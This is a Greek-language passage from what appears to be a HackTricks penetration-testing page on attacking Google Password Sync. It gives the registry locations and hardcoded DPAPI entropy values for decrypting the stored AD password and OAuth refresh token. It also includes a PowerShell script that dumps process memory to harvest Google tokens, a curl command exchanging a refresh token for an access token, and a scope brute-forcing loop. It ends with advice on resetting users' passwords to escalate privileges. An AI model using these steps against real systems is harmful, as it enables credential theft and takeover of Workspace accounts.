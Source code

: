 # GPS - Google Password Sync

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Αυτό είναι το δυαδικό και η υπηρεσία που προσφέρει η Google προκειμένου να **διατηρεί συγχρονισμένα τους κωδικούς πρόσβασης των χρηστών μεταξύ του AD** και του Workspace. Κάθε φορά που ένας χρήστης αλλάζει τον κωδικό του στο AD, ρυθμίζεται στη Google.

Εγκαθίσταται στο `C:\Program Files\Google\Password Sync` όπου μπορείτε να βρείτε το δυαδικό `PasswordSync.exe` για να το ρυθμίσετε και το `password_sync_service.exe` (η υπηρεσία που θα συνεχίσει να τρέχει).

### GPS - Configuration

Για να ρυθμίσετε αυτό το δυαδικό (και υπηρεσία), είναι απαραίτητο να **του δώσετε πρόσβαση σε έναν Super Admin principal στο Workspace**:

- Συνδεθείτε μέσω **OAuth** με τη Google και στη συνέχεια θα **αποθηκεύσει ένα token στο μητρώο (κρυπτογραφημένο)**
- Διαθέσιμο μόνο σε Domain Controllers με GUI
- Δίνοντας κάποια **credentials Service Account από το GCP** (json αρχείο) με δικαιώματα να **διαχειρίζεται τους χρήστες του Workspace**
- Πολύ κακή ιδέα καθώς αυτά τα credentials δεν λήγουν ποτέ και θα μπορούσαν να χρησιμοποιηθούν κακόβουλα
- Πολύ κακή ιδέα να δώσετε πρόσβαση σε SA πάνω από το workspace καθώς ο SA θα μπορούσε να παραβιαστεί στο GCP και θα είναι δυνατό να γίνει pivot στο Workspace
- Η Google το απαιτεί για domain controlled χωρίς GUI
- Αυτά τα creds αποθηκεύονται επίσης στο μητρώο

Όσον αφορά το AD, είναι δυνατό να υποδείξετε να χρησιμοποιεί το τρέχον **applications context, ανώνυμο ή κάποια συγκεκριμένα credentials**. Εάν επιλεγεί η επιλογή credentials, το **username** αποθηκεύεται μέσα σε ένα αρχείο στο **δίσκο** και ο **κωδικός πρόσβασης** είναι **κρυπτογραφημένος** και αποθηκεύεται στο **μητρώο**.

### GPS - Dumping password and token from disk

> [!TIP]
> Σημειώστε ότι [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) είναι ικανό να ανιχνεύσει **GPS**, να αποκτήσει πληροφορίες σχετικά με τη ρύθμιση και **ακόμη και να αποκρυπτογραφήσει τον κωδικό πρόσβασης και το token**.

Στο αρχείο **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** είναι δυνατό να βρείτε μέρος της ρύθμισης όπως το **`baseDN`** του AD που έχει ρυθμιστεί και το **`username`** των credentials που χρησιμοποιούνται.

Στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`** είναι δυνατό να βρείτε το **κρυπτογραφημένο refresh token** και τον **κρυπτογραφημένο κωδικό πρόσβασης** για τον χρήστη AD (αν υπάρχει). Επιπλέον, εάν αντί για ένα token, χρησιμοποιηθούν κάποια **credentials SA**, είναι επίσης δυνατό να βρείτε αυτά κρυπτογραφημένα σε αυτή τη διεύθυνση μητρώου. Οι **τιμές** μέσα σε αυτό το μητρώο είναι μόνο **προσβάσιμες** από **Administrators**.

Ο κρυπτογραφημένος **κωδικός πρόσβασης** (αν υπάρχει) είναι μέσα στο κλειδί **`ADPassword`** και είναι κρυπτογραφημένος χρησιμοποιώντας το API **`CryptProtectData`**. Για να τον αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τον συγχρονισμό κωδικών πρόσβασης και να χρησιμοποιήσετε αυτή την **entropy** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Το κρυπτογραφημένο token (αν υπάρχει) είναι μέσα στο κλειδί **`AuthToken`** και είναι κρυπτογραφημένο χρησιμοποιώντας το API **`CryptProtectData`**. Για να το αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τον συγχρονισμό κωδικών πρόσβασης και να χρησιμοποιήσετε αυτή την **entropy** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Επιπλέον, είναι επίσης κωδικοποιημένο χρησιμοποιώντας base32hex με το λεξικό **`0123456789abcdefghijklmnopqrstv`**.

Οι τιμές entropy βρέθηκαν χρησιμοποιώντας το εργαλείο. Ρυθμίστηκε για να παρακολουθεί τις κλήσεις προς **`CryptUnprotectData`** και **`CryptProtectData`** και στη συνέχεια το εργαλείο χρησιμοποιήθηκε για να εκκινήσει και να παρακολουθήσει το `PasswordSync.exe` το οποίο θα αποκρυπτογραφήσει τον ρυθμισμένο κωδικό πρόσβασης και το auth token στην αρχή και το εργαλείο θα **δείξει τις τιμές για την entropy που χρησιμοποιήθηκε** και στις δύο περιπτώσεις:

<figure><img src="../../../images/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Σημειώστε ότι είναι επίσης δυνατό να δείτε τις **αποκρυπτογραφημένες** τιμές στην είσοδο ή έξοδο των κλήσεων σε αυτές τις APIs επίσης (σε περίπτωση που κάποια στιγμή το Winpeas σταματήσει να λειτουργεί).

Σε περίπτωση που ο συγχρονισμός κωδικών πρόσβασης έχει **ρυθμιστεί με SA credentials**, θα αποθηκευτεί επίσης σε κλειδιά μέσα στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Ακριβώς όπως με το GCPW, είναι δυνατό να κάνετε dump της μνήμης της διαδικασίας του `PasswordSync.exe` και των διαδικασιών `password_sync_service.exe` και θα μπορείτε να βρείτε refresh και access tokens (αν έχουν ήδη παραχθεί).\
Υποθέτω ότι θα μπορούσατε επίσης να βρείτε τα ρυθμισμένα credentials του AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> και τις διαδικασίες <code>password_sync_service.exe</code> και αναζητήστε tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Δημιουργία διαπιστευτηρίων πρόσβασης από ανανεωτικά διαπιστευτήρια

Χρησιμοποιώντας το ανανεωτικό διαπιστευτήριο, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας το και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

> [!NOTE]
> Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατό να ζητήσετε κανένα scope για το access token καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.
>
> Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.

Από προεπιλογή, το GPS δεν θα έχει πρόσβαση ως χρήστης σε κάθε πιθανό OAuth scope, οπότε χρησιμοποιώντας το παρακάτω script μπορούμε να βρούμε τα scopes που μπορούν να χρησιμοποιηθούν με το `refresh_token` για να δημιουργήσουμε ένα `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
https://www.googleapis.com/auth/admin.directory.user
```
Ποιο είναι το ίδιο που λαμβάνετε αν δεν υποδείξετε κανένα πεδίο.

> [!CAUTION]
> Με αυτό το πεδίο θα μπορούσατε **να τροποποιήσετε τον κωδικό πρόσβασης ενός υπάρχοντος χρήστη για να κλιμακώσετε τα προνόμια**.

{{#include ../../../banners/hacktricks-training.md}}
